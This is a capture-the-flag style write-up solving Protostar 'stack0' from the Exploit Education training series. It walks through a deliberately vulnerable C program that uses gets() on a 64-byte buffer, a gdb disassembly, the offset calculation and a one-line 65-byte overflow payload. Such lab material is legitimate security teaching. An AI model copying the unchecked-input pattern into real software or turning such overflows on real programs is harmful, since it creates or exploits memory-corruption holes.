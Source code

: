 ```yaml
---
title: "protostar - stack 0"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack zero from Protostar in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets check the file type of our binary using ```file``` command,

```c
$ file stack0
stack0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

This binary is a ```not stripped``` binary which runs in ```32 bit```

Lets try running our binary,

```c
$ ./stack0
monish
Try again?
```

Lets view the source code for proper understanding,

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

So we need to overwrite the ```modified``` variable to pass the program

Lets use our debugger to analyse this program,

Disassembling ```main()```,

```c
(gdb) disas main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave
0x08048434 <main+64>:	ret
```

Here ```modified``` is set to ```0```

```c
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
```

```modified``` is at ```$esp+0x5c```

Now our buffer space is allocated by,

```c
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
```

Starting place of ```buffer``` is at ```$esp+0x1c```

To overwrite ```modified``` we need to find the space between them

```c
>>> print(0x5c-0x1c)
64
```

So we need to pass ```64 bytes``` + ```1 byte``` to overwrite the ```modified```

Lets try our exploit,

```c
$ python -c "print('A'*65)" | ./stack0
you have changed the 'modified' variable
```

Done! we have completed "stack0"
